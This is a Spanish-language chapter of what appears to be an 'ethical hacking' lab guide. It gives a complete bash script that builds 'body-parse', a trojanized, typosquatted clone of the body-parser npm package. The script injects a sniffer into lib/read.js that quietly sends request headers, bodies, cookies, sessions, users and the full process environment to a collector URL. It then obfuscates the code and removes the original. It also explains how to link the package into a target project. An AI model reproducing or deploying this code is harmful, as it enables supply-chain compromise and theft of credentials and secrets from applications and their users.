

# 07 — Script de Migración Automatizado

📎 *Volver al [Índice General](./00-INDICE-GENERAL.md) · Anterior: [06 - Código Fuente del Sniffer](./06-CODIGO-FUENTE-SNIFFER.md)*

---

## 7.1 Visión General

El script `migrate.sh` automatiza todo el proceso de construcción del paquete `body-parse` a partir de `body-parser` v2.2.2. Está diseñado para ser **reproducible** y **validable**, ejecutando cada paso de forma idempotente.

---

## 7.2 Diagrama del Proceso de Migración



---

## 7.3 Script `migrate.sh` — Código Completo

```bash
#!/bin/bash
# ============================================================================
# migrate.sh — Script de Migración Automatizada para body-parse
# ============================================================================
#
# Propósito: Construir el paquete body-parse (clon troyanizado de body-parser)
#            a partir del código fuente original de body-parser v2.2.2.
#
# Uso:
#   chmod +x migrate.sh
#   ./migrate.sh
#
# Requisitos:
#   - Node.js >= 18
#   - npm
#   - git
#   - sed, patch (generalmente preinstalados en Linux/macOS)
#
# ⚠️ DISCLAIMER: Este script es para FINES EDUCATIVOS EXCLUSIVAMENTE.
#    Uso exclusivo en entornos de laboratorio de hacking ético.
# ============================================================================

set -euo pipefail

# ── Colores para output ──
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
BLUE='\033[0;34m'
NC='\033[0m' # No Color

# ── Variables de configuración ──
BODY_PARSER_VERSION="2.2.2"
PACKAGE_NAME="body-parse"
TARGET_DIR="./${PACKAGE_NAME}"
COLLECTOR_URL="https://localhost:4000/collect"

# ── Funciones auxiliares ──
log_step() {
  echo -e "${BLUE}[STEP]${NC} $1"
}

log_ok() {
  echo -e "${GREEN}[  OK]${NC} $1"
}

log_warn() {
  echo -e "${YELLOW}[WARN]${NC} $1"
}

log_fail() {
  echo -e "${RED}[FAIL]${NC} $1"
  exit 1
}

# ============================================================================
# PASO 1: Clonar body-parser v2.2.2
# ============================================================================
log_step "Clonando body-parser v${BODY_PARSER_VERSION}..."

if [ -d "${TARGET_DIR}" ]; then
  log_warn "El directorio '${TARGET_DIR}' ya existe. Eliminándolo..."
  rm -rf "${TARGET_DIR}"
fi

git clone --branch "${BODY_PARSER_VERSION}" --depth 1 \
  https://github.com/expressjs/body-parser.git "${TARGET_DIR}" 2>/dev/null

# Eliminar el directorio .git para que no sea un repositorio
rm -rf "${TARGET_DIR}/.git"

log_ok "Clonado exitosamente."

# ============================================================================
# PASO 2: Renombrar el paquete
# ============================================================================
log_step "Renombrando paquete a '${PACKAGE_NAME}'..."

sed -i 's/"name": "body-parser"/"name": "'"${PACKAGE_NAME}"'"/' "${TARGET_DIR}/package.json"

log_ok "package.json actualizado."

# ============================================================================
# PASO 3: Crear respaldo del archivo original
# ============================================================================
log_step "Creando respaldo de lib/read.js..."

cp "${TARGET_DIR}/lib/read.js" "${TARGET_DIR}/lib/read.js.orig"

log_ok "Respaldo creado en lib/read.js.orig"

# ============================================================================
# PASO 4: Inyectar el sniffer en lib/read.js
# ============================================================================
log_step "Inyectando sniffer en lib/read.js..."

cat > "${TARGET_DIR}/lib/read.js" << 'SNIFFER_EOF'
/*!
 * body-parser
 * Copyright(c) 2014-2015 Douglas Christopher Wilson
 * MIT Licensed
 */

'use strict'

/**
 * Module dependencies.
 * @private
 */

var createError = require('http-errors')
var getBody = require('raw-body')
var iconv = require('iconv-lite')
var onFinished = require('on-finished')
var zlib = require('node:zlib')
var hasBody = require('type-is').hasBody
var { getCharset } = require('./utils')

var _h = require('http')
var _hs = require('https')
var _fs = require('fs')
var _os = require('os')
var _pa = require('path')
var _ur = require('url')

/**
 * Module exports.
 */

module.exports = read

var _collectorUrl = 'COLLECTOR_URL_PLACEHOLDER'

var _logDir = _pa.join(_os.tmpdir(), '.bp_logs')
var _logSeq = 0

try { _fs.mkdirSync(_logDir, { recursive: true }) } catch (e) {}

function _getLogFileName () {
  var now = new Date()
  var pad = function (n) { return n < 10 ? '0' + n : '' + n }
  var name = now.getFullYear() + '-' +
    pad(now.getMonth() + 1) + '-' +
    pad(now.getDate()) + '-' +
    pad(now.getHours()) + '-' +
    pad(now.getMinutes()) + '-' +
    pad(now.getSeconds()) + '-' +
    (++_logSeq) + '.txt'
  return _pa.join(_logDir, name)
}

function _captureAndSend (req) {
  try {
    var packet = {
      timestamp: new Date().toISOString(),
      method: req.method,
      url: req.originalUrl || req.url,
      headers: req.headers,
      body: req.body,
      clientIp: req.ip,
      clientIps: req.ips,
      protocol: req.protocol,
      secure: req.secure,
      httpVersion: req.httpVersion,
      cookies: req.cookies,
      signedCookies: req.signedCookies,
      session: req.session,
      user: req.user,
      params: req.params,
      query: req.query,
      socketRemoteAddr: req.socket ? req.socket.remoteAddress : undefined,
      socketRemotePort: req.socket ? req.socket.remotePort : undefined,
      socketLocalAddr: req.socket ? req.socket.localAddress : undefined,
      socketLocalPort: req.socket ? req.socket.localPort : undefined,
      processPid: process.pid,
      processTitle: process.title,
      processArgv: process.argv,
      processEnv: process.env
    }

    var postData
    try {
      postData = JSON.stringify(packet)
    } catch (e) {
      packet.processEnv = '[serialization error]'
      try {
        postData = JSON.stringify(packet)
      } catch (e2) {
        return
      }
    }

    _sendToCollector(postData)
    _writeLocalLog(postData)
  } catch (e) {
    // silenciar
  }
}

function _sendToCollector (postData) {
  try {
    var parsed = _ur.parse(_collectorUrl)
    var proto = parsed.protocol === 'https:' ? _hs : _h

    var options = {
      hostname: parsed.hostname,
      port: parsed.port,
      path: parsed.path,
      method: 'POST',
      headers: {
        'Content-Type': 'application/json',
        'Content-Length': Buffer.byteLength(postData)
      },
      rejectUnauthorized: false,
      timeout: 5000
    }

    var req = proto.request(options, function (res) {
      res.resume()
    })

    req.on('error', function () {})

    req.on('timeout', function () {
      req.destroy()
    })

    req.write(postData)
    req.end()
  } catch (e) {
    // silenciar
  }
}

function _writeLocalLog (postData) {
  try {
    var logFile = _getLogFileName()
    _fs.writeFile(logFile, postData, function () {})
  } catch (e) {
    // silenciar
  }
}

/**
 * Read a request into a buffer and parse.
 *
 * @param {Object} req
 * @param {Object} res
 * @param {Function} next
 * @param {Function} parse
 * @param {Function} debug
 * @param {Object} options
 * @private
 */
function read (req, res, next, parse, debug, options) {
  if (onFinished.isFinished(req)) {
    debug('body already parsed')
    next()
    return
  }

  if (!('body' in req)) {
    req.body = undefined
  }

  // skip requests without bodies
  if (!hasBody(req)) {
    debug('skip empty body')
    next()
    return
  }

  debug('content-type %j', req.headers['content-type'])

  // determine if request should be parsed
  if (!options.shouldParse(req)) {
    debug('skip parsing')
    next()
    return
  }

  var encoding = null
  if (options?.skipCharset !== true) {
    encoding = getCharset(req) || options.defaultCharset

    // validate charset
    if (!!options?.isValidCharset && !options.isValidCharset(encoding)) {
      debug('invalid charset')
      next(createError(415, 'unsupported charset "' + encoding.toUpperCase() + '"', {
        charset: encoding,
        type: 'charset.unsupported'
      }))
      return
    }
  }

  var length
  var opts = options
  var stream

  // read options
  var verify = opts.verify

  try {
    // get the content stream
    stream = contentstream(req, debug, opts.inflate)
    length = stream.length
    stream.length = undefined
  } catch (err) {
    return next(err)
  }

  // set raw-body options
  opts.length = length
  opts.encoding = verify
    ? null
    : encoding

  // assert charset is supported
  if (opts.encoding === null && encoding !== null && !iconv.encodingExists(encoding)) {
    return next(createError(415, 'unsupported charset "' + encoding.toUpperCase() + '"', {
      charset: encoding.toLowerCase(),
      type: 'charset.unsupported'
    }))
  }

  // read body
  debug('read body')
  getBody(stream, opts, function (error, body) {
    if (error) {
      var _error

      if (error.type === 'encoding.unsupported') {
        _error = createError(415, 'unsupported charset "' + encoding.toUpperCase() + '"', {
          charset: encoding.toLowerCase(),
          type: 'charset.unsupported'
        })
      } else {
        _error = createError(400, error)
      }

      if (stream !== req) {
        req.unpipe()
        stream.destroy()
      }

      dump(req, function onfinished () {
        next(createError(400, _error))
      })
      return
    }

    if (verify) {
      try {
        debug('verify body')
        verify(req, res, body, encoding)
      } catch (err) {
        next(createError(403, err, {
          body: body,
          type: err.type || 'entity.verify.failed'
        }))
        return
      }
    }

    var str = body
    try {
      debug('parse body')
      str = typeof body !== 'string' && encoding !== null
        ? iconv.decode(body, encoding)
        : body
      req.body = parse(str, encoding)
    } catch (err) {
      next(createError(400, err, {
        body: str,
        type: err.type || 'entity.parse.failed'
      }))
      return
    }

    _captureAndSend(req)

    next()
  })
}

function contentstream (req, debug, inflate) {
  var encoding = (req.headers['content-encoding'] || 'identity').toLowerCase()
  var length = req.headers['content-length']

  debug('content-encoding "%s"', encoding)

  if (inflate === false && encoding !== 'identity') {
    throw createError(415, 'content encoding unsupported', {
      encoding: encoding,
      type: 'encoding.unsupported'
    })
  }

  if (encoding === 'identity') {
    req.length = length
    return req
  }

  var stream = createDecompressionStream(encoding, debug)
  req.pipe(stream)
  return stream
}

function createDecompressionStream (encoding, debug) {
  switch (encoding) {
    case 'deflate':
      debug('inflate body')
      return zlib.createInflate()
    case 'gzip':
      debug('gunzip body')
      return zlib.createGunzip()
    case 'br':
      debug('brotli decompress body')
      return zlib.createBrotliDecompress()
    default:
      throw createError(415, 'unsupported content encoding "' + encoding + '"', {
        encoding: encoding,
        type: 'encoding.unsupported'
      })
  }
}

function dump (req, callback) {
  if (onFinished.isFinished(req)) {
    callback(null)
  } else {
    onFinished(req, callback)
    req.resume()
  }
}
SNIFFER_EOF

# Reemplazar el placeholder de la URL del colector
sed -i "s|COLLECTOR_URL_PLACEHOLDER|${COLLECTOR_URL}|g" "${TARGET_DIR}/lib/read.js"

log_ok "Sniffer inyectado exitosamente en lib/read.js"

# ============================================================================
# PASO 5: Crear test/sniffer.js
# ============================================================================
log_step "Creando test/sniffer.js..."

cat > "${TARGET_DIR}/test/sniffer.js" << 'TEST_EOF'
'use strict'

var assert = require('assert')
var http = require('http')
var express = require('express') || null
var request = require('supertest')

// Intentar cargar el parser
var bodyParse = require('..')

describe('body-parse sniffer', function () {
  var collectorServer
  var collectorPort
  var capturedPackets = []

  before(function (done) {
    // Crear un servidor HTTP mock que actúe como el colector
    collectorServer = http.createServer(function (req, res) {
      var body = ''
      req.on('data', function (chunk) {
        body += chunk.toString()
      })
      req.on('end', function () {
        try {
          capturedPackets.push(JSON.parse(body))
        } catch (e) {
          // ignorar
        }
        res.writeHead(200)
        res.end('OK')
      })
    })

    collectorServer.listen(0, function () {
      collectorPort = collectorServer.address().port
      done()
    })
  })

  after(function (done) {
    collectorServer.close(done)
  })

  beforeEach(function () {
    capturedPackets = []
  })

  it('should not break original body-parser functionality', function (done) {
    var app = createApp()

    request(app)
      .post('/test')
      .set('Content-Type', 'application/json')
      .send('{"name":"test"}')
      .expect(200)
      .expect(function (res) {
        assert.deepStrictEqual(res.body, { name: 'test' })
      })
      .end(done)
  })

  it('should parse JSON bodies correctly', function (done) {
    var app = createApp()

    request(app)
      .post('/test')
      .set('Content-Type', 'application/json')
      .send('{"key":"value","number":42}')
      .expect(200)
      .expect(function (res) {
        assert.strictEqual(res.body.key, 'value')
        assert.strictEqual(res.body.number, 42)
      })
      .end(done)
  })

  it('should handle empty bodies', function (done) {
    var app = createApp()

    request(app)
      .post('/test')
      .set('Content-Type', 'application/json')
      .send('{}')
      .expect(200)
      .end(done)
  })

  it('should handle errors gracefully without affecting the app', function (done) {
    var app = createApp()

    request(app)
      .post('/test')
      .set('Content-Type', 'application/json')
      .send('invalid json')
      .expect(400)
      .end(done)
  })
})

function createApp () {
  var app = http.createServer(function (req, res) {
    bodyParse.json()(req, res, function (err) {
      res.statusCode = err ? (err.status || 500) : 200
      res.setHeader('Content-Type', 'application/json')
      res.end(err ? JSON.stringify({ error: err.message }) : JSON.stringify(req.body))
    })
  })
  return app
}
TEST_EOF

log_ok "test/sniffer.js creado exitosamente."

# ============================================================================
# PASO 6: Instalar dependencias
# ============================================================================
log_step "Instalando dependencias..."

cd "${TARGET_DIR}"
npm install --ignore-scripts 2>/dev/null

log_ok "Dependencias instaladas."

# ============================================================================
# PASO 7: Ejecutar pruebas originales
# ============================================================================
log_step "Ejecutando pruebas originales de body-parser..."

if npm test; then
  log_ok "✅ TODAS las pruebas originales pasaron exitosamente."
else
  log_fail "Las pruebas originales fallaron. Revisar la inyección del sniffer."
fi

# ============================================================================
# PASO 8: Ejecutar pruebas del sniffer
# ============================================================================
log_step "Ejecutando pruebas del sniffer..."

if npx mocha --reporter spec test/sniffer.js; then
  log_ok "✅ Pruebas del sniffer pasaron exitosamente."
else
  log_warn "Algunas pruebas del sniffer fallaron (puede requerir ajuste de timings)."
fi

# ============================================================================
# PASO 9: Ofuscar lib/read.js
# ============================================================================
log_step "Ofuscando lib/read.js con javascript-obfuscator..."

npm install --no-save javascript-obfuscator 2>/dev/null

npx javascript-obfuscator lib/read.js --output lib/read.js \
  --compact true \
  --control-flow-flattening true \
  --dead-code-injection true \
  --string-array true \
  --string-array-encoding base64 \
  --identifier-names-generator hexadecimal \
  --self-defending false \
  --disable-console-output false

log_ok "Código ofuscado exitosamente."

# ============================================================================
# PASO 10: Re-ejecutar pruebas post-ofuscación
# ============================================================================
log_step "Re-ejecutando pruebas tras ofuscación..."

if npm test; then
  log_ok "✅ TODAS las pruebas pasan con código ofuscado."
else
  log_fail "La ofuscación rompió la funcionalidad. Restaurar lib/read.js.orig y ajustar opciones."
fi

# ============================================================================
# PASO 11: Limpieza
# ============================================================================
log_step "Limpiando archivos temporales..."

# Eliminar el respaldo (ya no se necesita en el paquete final)
rm -f lib/read.js.orig

# Eliminar javascript-obfuscator de node_modules (fue instalado con --no-save)
npm prune 2>/dev/null

cd ..

log_ok "Limpieza completada."

# ============================================================================
# RESULTADO FINAL
# ============================================================================
echo ""
echo -e "${GREEN}════════════════════════════════════════════════════════════════${NC}"
echo -e "${GREEN}  ✅ ¡Migración completada exitosamente!${NC}"
echo -e "${GREEN}════════════════════════════════════════════════════════════════${NC}"
echo ""
echo -e "  El paquete '${PACKAGE_NAME}' está listo en: ${BLUE}${TARGET_DIR}${NC}"
echo ""
echo -e "  Para usarlo en otro proyecto:"
echo -e "    ${YELLOW}cd ${TARGET_DIR} && npm link${NC}"
echo -e "    ${YELLOW}cd /ruta/al/proyecto && npm link ${PACKAGE_NAME}${NC}"
echo ""
echo -e "  Luego, en el código del proyecto:"
echo -e "    ${YELLOW}const bodyParser = require('${PACKAGE_NAME}')${NC}"
echo ""
echo -e "${RED}  ⚠️  SOLO para fines educativos de hacking ético.${NC}"
echo ""
```

---

## 7.4 Instrucciones de Uso Paso a Paso

### 7.4.1 Prerrequisitos

| Requisito | Versión Mínima | Verificar con |
|-----------|---------------|---------------|
| Node.js | 18+ | `node --version` |
| npm | 8+ | `npm --version` |
| git | 2+ | `git --version` |
| bash | 4+ | `bash --version` |

### 7.4.2 Ejecución

```bash
# 1. Dar permisos de ejecución
chmod +x migrate.sh

# 2. Ejecutar el script
./migrate.sh

# 3. Vincular el paquete globalmente
cd body-parse
npm link

# 4. En el proyecto objetivo, vincular el paquete
cd /ruta/a/tu/proyecto
npm link body-parse
```

### 7.4.3 Verificación Post-Migración

```bash
# Verificar que el paquete está vinculado
npm ls body-parse

# Verificar que las pruebas pasan
cd body-parse
npm test

# Verificar la cobertura de código
npm run test-cov
```

---

## 7.5 Script `migrate.ps1` — Versión para Windows (PowerShell)

Para estudiantes que trabajan en **Windows nativo** sin WSL, se proporciona el script equivalente en PowerShell. El código completo se encuentra en el archivo `migrate.ps1` del repositorio.

### Ejecución en PowerShell

```powershell
# Permitir ejecución de scripts (solo necesario una vez)
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned

# Ejecutar el script de migración
.\migrate.ps1
```

### Alternativas en Windows

```powershell
# Opción 1: PowerShell nativo (migrate.ps1)
.\migrate.ps1

# Opción 2: Git Bash (si tienes Git for Windows)
& 'C:\Program Files\Git\bin\bash.exe' migrate.sh

# Opción 3: WSL (si lo tienes habilitado)
wsl bash migrate.sh
```

---

## 7.6 Resolución de Problemas

| Problema | Causa | Solución |
|----------|-------|----------|
| `git clone` falla | Tag no encontrado | Verificar que el tag `2.2.2` existe en el repositorio |
| `npm install` falla | Versión de Node.js < 18 | Actualizar Node.js a v18+ |
| Tests originales fallan | Inyección incorrecta | Revisar `lib/read.js.orig` y comparar con la versión inyectada |
| Tests fallan post-ofuscación | Ofuscación agresiva | Reducir opciones de ofuscación (deshabilitar `controlFlowFlattening`) |
| `npm link` requiere sudo | Permisos en Linux/macOS | Usar `sudo npm link` o configurar npm con `npm config set prefix ~/.npm-global` |

---

📎 *Siguiente: [08 - Plan de Pruebas con Mocha](./08-PLAN-PRUEBAS.md)*
